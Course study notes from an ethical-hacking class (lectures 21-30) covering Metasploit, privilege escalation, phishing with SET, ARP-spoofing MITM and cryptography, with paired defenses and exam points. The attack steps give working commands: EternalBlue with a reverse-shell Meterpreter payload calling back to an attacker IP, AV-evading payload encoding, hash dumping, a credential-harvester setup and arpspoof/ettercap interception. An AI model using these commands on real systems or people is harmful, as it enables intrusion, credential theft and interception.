

# Volume 03 — Lectures 21–30: Metasploit, MITM & Cryptography

> Ethical Hacking · NPTEL 106105217 · Prof. Indranil Sengupta

---

## L21: Metasploit — Exploiting System Software I

### Concepts
- **Metasploit Framework (MSF):** open-source penetration testing platform by Rapid7.
- **Architecture:** msfconsole (CLI) → modules (exploits, payloads, auxiliaries, encoders, nops, post) → database.
- **Exploit module:** delivers payload against a specific vulnerability (CVE).
- **Payload:** code executed on target after exploitation (shell, meterpreter, VNC).
- **msfvenom:** standalone payload generator and encoder.

### Tools
- `msfconsole` — interactive Metasploit console
- `msfdb init` — initialize PostgreSQL database
- `search type:exploit platform:windows`
- `msfvenom -l payloads`

### Attack Steps
1. Start msfconsole: `msfconsole`.
2. Search exploit: `search eternalblue` or `search cve:2017-0144`.
3. Select: `use exploit/windows/smb/ms17_010_eternalblue`.
4. Set target: `set RHOSTS 192.168.1.100`.
5. Set payload: `set payload windows/x64/meterpreter/reverse_tcp`.
6. Set callback: `set LHOST 192.168.1.50`; `exploit`.

### Defenses
- Patch management (MS17-010 for EternalBlue)
- Disable SMBv1
- Network segmentation; block inbound SMB (port 445) at perimeter
- EDR detecting Meterpreter behavior

### Exam Bullets
- Metasploit modules: **exploit, payload, auxiliary, encoder, post**.
- `msfvenom` generates standalone payloads outside msfconsole.
- Meterpreter = advanced in-memory payload with extensible features.
- `set RHOSTS` = target; `set LHOST` = attacker callback IP.
- MSF database (`msfdb`) stores hosts, services, and credentials.

---

## L22: Metasploit — Exploiting System Software II

### Concepts
- **Auxiliary modules:** scanning, fuzzing, DoS, credential brute-force (no payload delivery).
- **Encoder modules:** obfuscate payload to evade signature-based AV/IDS.
- **NOP generators:** pad payload to avoid bad-character issues.
- **Resource scripts (.rc):** automate sequences of MSF commands.
- **Multi/handler:** catch reverse connections from multiple exploits.

### Tools
- `use auxiliary/scanner/smb/smb_version`
- `use exploit/multi/handler`
- `msfconsole -r script.rc` — run resource script
- `show options` / `show payloads` / `info`

### Attack Steps
1. Enumerate with auxiliary: `use auxiliary/scanner/http/http_version; set RHOSTS target; run`.
2. Start handler: `use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set LHOST x; exploit -j`.
3. Launch exploit in separate tab; handler catches session.
4. Encode payload: `msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 5`.

### Defenses
- AV with behavioral detection (not just signatures)
- Application whitelisting
- Network monitoring for reverse shell connections
- Disable unnecessary services found by auxiliary scans

### Exam Bullets
- **Auxiliary modules** perform scanning/brute-force without delivering exploits.
- **Encoders** (e.g., shikata_ga_nai) mutate payload to evade detection.
- `exploit/multi/handler` catches reverse TCP connections.
- Resource scripts automate repetitive msfconsole commands.
- `show options` displays required/optional module parameters.

---

## L23: Metasploit — Exploiting System Software and Privilege

### Concepts
- **Privilege escalation:** gaining higher permissions (user → root/SYSTEM).
- **Post-exploitation modules:** run after initial access (hashdump, enum_users, persistence).
- **Meterpreter commands:** `sysinfo`, `getuid`, `getsystem`, `hashdump`, `migrate`.
- **Local exploits:** target OS/kernel vulnerabilities from low-privilege shell.
- **Token impersonation:** steal SYSTEM token on Windows.

### Tools
- `getsystem` — Meterpreter privesc (multiple techniques)
- `use post/windows/gather/hashdump`
- `use exploit/windows/local/bypassuac`
- `run post/multi/recon/local_exploit_suggester`

### Attack Steps
1. After initial shell: `getuid` (check current privileges).
2. Suggest local exploits: `run local_exploit_suggester`.
3. Escalate: `getsystem` or `use exploit/windows/local/ms16_032_secondary_logon_handle_privesc`.
4. Dump hashes: `hashdump` or `run post/windows/gather/hashdump`.
5. Migrate to stable process: `migrate <pid>`.

### Defenses
- Principle of least privilege
- Patch kernel and local privilege escalation CVEs promptly
- Credential Guard / LSA protection (Windows)
- Monitor for suspicious token manipulation

### Exam Bullets
- `getsystem` attempts multiple techniques to gain SYSTEM on Windows.
- `hashdump` extracts NTLM password hashes from SAM database.
- **Post modules** run after compromise (enumeration, persistence, exfiltration).
- `migrate` moves Meterpreter into a more stable process (e.g., explorer.exe).
- `local_exploit_suggester` recommends kernel exploits based on system info.

---

## L24: Metasploit — Social Engineering Attack

### Concepts
- **Social engineering:** manipulating people to divulge info or perform actions.
- **SET (Social Engineering Toolkit):** integrated with Metasploit for phishing campaigns.
- **Attack vectors:** spear phishing, USB drops, fake login pages, SMS phishing (smishing).
- **Credential harvester:** clone legitimate website; capture submitted credentials.
- **Payload delivery via email:** malicious attachment or link to browser exploit.

### Tools
- `setoolkit` (Social Engineering Toolkit)
- `use auxiliary/gather/phish_windows_credentials`
- `msfvenom` + malicious Office macro
- SET → Website Attack Vectors → Credential Harvester

### Attack Steps
1. Launch SET: `setoolkit`.
2. Select: Social-Engineering Attacks → Website Attack Vectors → Credential Harvester.
3. Clone target login page (e.g., corporate VPN portal).
4. Start Apache server; send phishing link to target.
5. Captured credentials displayed in SET; use for lateral movement.

### Defenses
- Security awareness training and phishing simulations
- Email filtering (SPF, DKIM, DMARC)
- MFA on all authentication endpoints
- URL rewriting/proxy for link inspection

### Exam Bullets
- SET integrates with Metasploit for **automated social engineering**.
- Credential harvester **clones websites** to steal login credentials.
- Spear phishing targets **specific individuals** with crafted messages.
- MFA mitigates stolen-credential attacks even after successful harvest.
- Social engineering exploits **human psychology**, not technical vulnerabilities.

---

## L25: MITM (Man-in-the-Middle) Attack

### Concepts
- **MITM:** attacker intercepts and potentially alters communication between two parties.
- **ARP spoofing/poisoning:** send fake ARP replies mapping attacker's MAC to victim's gateway IP.
- **DNS spoofing:** redirect DNS queries to attacker-controlled server.
- **SSL stripping:** downgrade HTTPS to HTTP (sslstrip tool).
- **Session hijacking:** capture cookies/tokens from intercepted traffic.

### ARP Spoofing Flow

### Tools
- `arpspoof -i eth0 -t 192.168.1.10 192.168.1.1` (dsniff)
- `ettercap -T -M arp:remote /victim// /gateway//`
- `bettercap` — modern MITM framework
- `sslstrip` / `sslstrip2` — HTTPS downgrade

### Attack Steps
1. Enable IP forwarding: `echo 1 > /proc/sys/net/ipv4/ip_forward`.
2. ARP spoof victim and gateway simultaneously (bidirectional).
3. Capture traffic with Wireshark or `tcpdump`.
4. Optional: DNS spoof with `ettercap -P dns_spoof` or `bettercap`.
5. Optional: sslstrip to intercept HTTPS credentials.

### Defenses
- **Static ARP entries** for critical hosts (gateway, DNS)
- **Dynamic ARP Inspection (DAI)** on managed switches
- **HTTPS with HSTS** and certificate pinning
- **802.1X** port authentication
- VPN for sensitive traffic

### Exam Bullets
- ARP operates at **Layer 2**; has no authentication — easily spoofed.
- Bidirectional ARP spoofing required: poison victim **and** gateway.
- IP forwarding must be enabled on attacker to relay packets.
- DAI on switches validates ARP packets against DHCP snooping table.
- SSL stripping exploits sites that don't enforce HSTS.

---

## L26: Basic Concepts of Cryptography

### Concepts
- **Cryptography goals:** confidentiality, integrity, authentication, non-repudiation.
- **Kerckhoffs's principle:** security relies on key secrecy, not algorithm secrecy.
- **Cryptanalysis:** breaking ciphers without key (brute force, frequency analysis, side channels).
- **Symmetric vs asymmetric:** same key vs key pair (public/private).
- **Steganography vs cryptography:** hiding existence of message vs scrambling content.

### Tools
- `openssl enc` — symmetric encryption CLI
- `openssl rand -hex 32` — generate random keys
- CyberChef — online crypto analysis (lab)

### Attack Steps
1. Identify encryption algorithm from protocol/ciphertext patterns.
2. Brute-force weak keys (DES 56-bit feasible with modern hardware).
3. Exploit implementation flaws (ECB mode patterns, weak RNG).
4. Side-channel attacks on key material (covered L47–48).

### Defenses
- Use well-vetted algorithms (AES, SHA-256, RSA-2048+)
- Proper key management (HSM, key rotation)
- Never roll your own crypto
- Use authenticated encryption (AES-GCM, ChaCha20-Poly1305)

### Exam Bullets
- Kerckhoffs's principle: algorithm is public; **key is secret**.
- Symmetric crypto: **one shared key** for encrypt and decrypt.
- Asymmetric crypto: **public key encrypts**, private key decrypts.
- Steganography hides message **existence**; cryptography hides **content**.
- Brute-force complexity grows exponentially with key length.

---

## L27: Private-Key Cryptography — Part I

### Concepts
- **Symmetric (private-key) ciphers:** AES, DES, 3DES, Blowfish, RC4.
- **Block ciphers:** encrypt fixed-size blocks (AES = 128-bit blocks).
- **Stream ciphers:** encrypt bit/byte at a time (RC4, ChaCha20).
- **DES:** 56-bit key (obsolete); **3DES:** three DES operations (deprecated).
- **AES (Rijndael):** 128/192/256-bit keys; NIST standard since 2001.

### Tools
- `openssl enc -aes-256-cbc -in file -out file.enc -k password`
- `openssl speed aes` — benchmark
- Python `cryptography` library

### Attack Steps
1. Identify cipher mode from ciphertext structure.
2. **ECB mode attack:** identical plaintext blocks → identical ciphertext (pattern leakage).
3. Brute-force DES keys (56-bit) using dedicated hardware or cloud.
4. RC4 biases in initial keystream bytes → WEP cracking (L44).

### Defenses
- Use AES-256 in GCM or CBC with HMAC
- Never use DES, 3DES, or RC4 in new systems
- Unique IV/nonce per encryption operation
- Key length ≥ 256 bits for long-term security

### Exam Bullets
- AES block size = **128 bits**; key sizes = 128, 192, or 256 bits.
- DES key = **56 effective bits** (64 with parity) — considered broken.
- ECB mode reveals patterns — **never use for structured data**.
- Stream ciphers encrypt data **bit-by-bit** or byte-by-byte.
- 3DES applies DES encrypt-decrypt-encrypt (EDE) with 2 or 3 keys.

---

## L28: Private-Key Cryptography — Part II

### Concepts
- **Block cipher modes:** ECB, CBC, CFB, OFB, CTR, GCM.
- **CBC (Cipher Block Chaining):** each block XORed with previous ciphertext; requires unique IV.
- **CTR (Counter mode):** turns block cipher into stream cipher; parallelizable.
- **GCM (Galois/Counter Mode):** authenticated encryption (AEAD) — confidentiality + integrity.
- **Key distribution problem:** symmetric crypto requires secure key exchange channel.

### Tools
- `openssl enc -aes-256-cbc -iv <hex> -K <hex-key>`
- `openssl enc -aes-256-gcm` (authenticated)
- Python: `AES.new(key, AES.MODE_GCM)`

### Attack Steps
1. **Padding oracle attack** on CBC mode: exploit error messages to decrypt without key.
2. **IV reuse in CTR/GCM:** keystream reuse → XOR of plaintexts recoverable.
3. Bit-flipping attack on CBC: modify ciphertext block to control decrypted plaintext.
4. Replay captured ciphertext if no integrity check.

### Defenses
- Prefer **AES-GCM** or **ChaCha20-Poly1305** (authenticated encryption)
- Random, unique IV for every CBC/CTR encryption
- Never reuse nonce in GCM (catastrophic failure)
- Use TLS 1.3 for transport encryption

### Exam Bullets
- CBC chains blocks: Cᵢ = E(Pᵢ ⊕ Cᵢ₋₁); requires unpredictable **IV**.
- GCM provides **authenticated encryption** (confidentiality + integrity).
- CTR mode converts block cipher into **stream cipher**; supports parallel encryption.
- Padding oracle attack exploits **CBC decryption error messages**.
- Symmetric crypto's weakness: **secure key distribution** between parties.

---

## L29: Public-Key Cryptography — Part I

### Concepts
- **Asymmetric cryptography:** key pair — public key (encrypt/verify) + private key (decrypt/sign).
- **RSA:** based on factoring large primes; key sizes 2048–4096 bits recommended.
- **Diffie-Hellman (DH):** key exchange protocol; compute shared secret over insecure channel.
- **ECDHE:** Elliptic Curve DH Ephemeral — modern TLS key exchange.
- **One-way functions:** easy to compute forward, infeasible to reverse (factoring, discrete log).

### Tools
- `openssl genrsa -out private.pem 2048`
- `openssl rsa -in private.pem -pubout -out public.pem`
- `openssl dgst -sha256 -sign private.pem file`

### Attack Steps
1. Factor weak RSA keys (< 1024 bits) using tools like `yafu` or factordb.com.
2. Exploit weak DH parameters (LOGJAM attack on 512-bit DH).
3. Recover private key from leaked or reused ephemeral keys.
4. Common modulus attack when same N used with different exponents.

### Defenses
- RSA key length ≥ **2048 bits** (3072+ for long-term)
- Use ECDHE with curve P-256 or X25519
- Disable export-grade and weak DH cipher suites
- Rotate keys periodically

### Exam Bullets
- RSA security based on **integer factorization** hardness.
- DH allows **key exchange** without prior shared secret.
- Public key encrypts; **only private key decrypts**.
- ECDHE uses **elliptic curve** math for smaller, faster keys.
- RSA-1024 is deprecated; minimum is **RSA-2048**.

---

## L30: Public-Key Cryptography — Part II

### Concepts
- **Hybrid encryption:** asymmetric for key exchange + symmetric for bulk data (TLS model).
- **RSA padding schemes:** PKCS#1 v1.5, OAEP (prevent chosen-ciphertext attacks).
- **ElGamal:** encryption based on discrete logarithm problem.
- **Elliptic Curve Cryptography (ECC):** same security as RSA with smaller keys (P-256 ≈ RSA-3072).
- **Key management:** PKI, certificate authorities, certificate chains (covered L33).

### Tools
- `openssl s_client -connect host:443` — inspect TLS cert
- `openssl speed rsa ecdh` — benchmark
- `ssh-keygen -t ed25519` — modern SSH key generation

### Attack Steps
1. Bleichenbacher attack on RSA PKCS#1 v1.5 padding (SSL/TLS).
2. Invalid curve attack on ECDH implementations not validating points.
3. Extract keys from poorly implemented RNG (Debian OpenSSL bug 2008).
4. Man-in-the-middle with self-signed cert if client doesn't verify CA chain.

### Defenses
- Use RSA-OAEP or ECIES for encryption
- Validate elliptic curve points in ECDH implementations
- Hardware RNG or OS CSPRNG for key generation
- Certificate pinning for critical applications

### Exam Bullets
- Hybrid encryption: **asymmetric exchanges key**, symmetric encrypts data.
- ECC P-256 provides security equivalent to **RSA-3072** with smaller keys.
- OAEP padding prevents **chosen-ciphertext attacks** on RSA.
- ElGamal encryption based on **discrete logarithm** problem.
- TLS uses hybrid model: ECDHE key exchange + AES-GCM bulk encryption.

---

*Previous: [Volume 02](vol-02.md) · Next: [Volume 04 — Hash Functions & Network Attacks](vol-04.md)*
